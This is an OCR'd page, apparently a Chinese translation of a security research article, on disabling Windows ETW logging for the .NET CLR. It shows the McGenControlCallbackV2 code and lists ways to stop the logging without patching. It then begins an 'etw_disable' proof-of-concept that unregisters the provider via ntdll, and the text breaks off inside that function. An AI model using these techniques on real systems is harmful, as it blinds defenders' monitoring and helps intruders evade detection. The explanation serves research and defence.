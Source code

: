 ```
  PMCGEN_TRACE_CONTEXT CallbackContext) 
`{`
  int cnt;

  // 如果有上下文
  if(CallbackContext) `{`
    // 并且control code不为零
    if(IsEnabled) `{`
      // 启用追踪
      if(IsEnabled == EVENT_CONTROL_CODE_ENABLE_PROVIDER) `{`
        // 设置上下文
        CallbackContext-&gt;MatchAnyKeyword = MatchAnyKeyword;
        CallbackContext-&gt;MatchAllKeyword = MatchAllKeyword;
        CallbackContext-&gt;Level           = Level;
        CallbackContext-&gt;IsEnabled       = 1;

        // ...其他代码省略...
      `}`
    `}` else `{`
      // 禁用追踪
      CallbackContext-&gt;IsEnabled       = 0;
      CallbackContext-&gt;Level           = 0;
      CallbackContext-&gt;MatchAnyKeyword = 0;
      CallbackContext-&gt;MatchAllKeyword = 0;

      if(CallbackContext-&gt;EnableBitsCount &gt; 0) `{`

        ZeroMemory(CallbackContext-&gt;EnableBitMask,
          4 * ((CallbackContext-&gt;EnableBitsCount - 1) / 32 + 1));
      `}`
    `}`
    EtwCallback(
      SourceId, IsEnabled, Level, 
      MatchAnyKeyword, MatchAllKeyword, 
      FilterData, CallbackContext);
  `}`
`}`
```

有许多选项可以禁用CLR日志记录，而无需修补代码。
- 使用[EVENT_CONTROL_CODE_DISABLE_PROVIDER](https://docs.microsoft.com/en-us/windows/win32/api/evntprov/nc-evntprov-penablecallback)调用McGenControlCallbackV2。
- 直接修改MCGEN_TRACE_CONTEXT和ETW注册结构以防止进一步记录。
<li>调用EventUnregister传递注册句柄。<br>
最简单的方法是将注册句柄传递给ntdll！EtwEventUnregister。以下只是一个PoC。<br>[![](https://p4.ssl.qhimg.com/t01b813d9b1cba4c6f2.png)](https://p4.ssl.qhimg.com/t01b813d9b1cba4c6f2.png)
</li>
```
BOOL etw_disable(
    HANDLE             hp,
    PRTL_BALANCED_NODE node,
    USHORT             index) 
`{`
    HMODULE               m;
    HANDLE                ht;
    RtlCreateUserThread_t pRtlCreateUserThread;
    CLIENT_ID             cid;
    NTSTATUS              nt=~0UL;
    REGHANDLE             RegHandle;
    EventUnregister_t     pEtwEventUnregister;
    ULONG                 Result;

    // 获得创建新线程的API地址
    m = GetModuleHandle(L"ntdll.dll");
```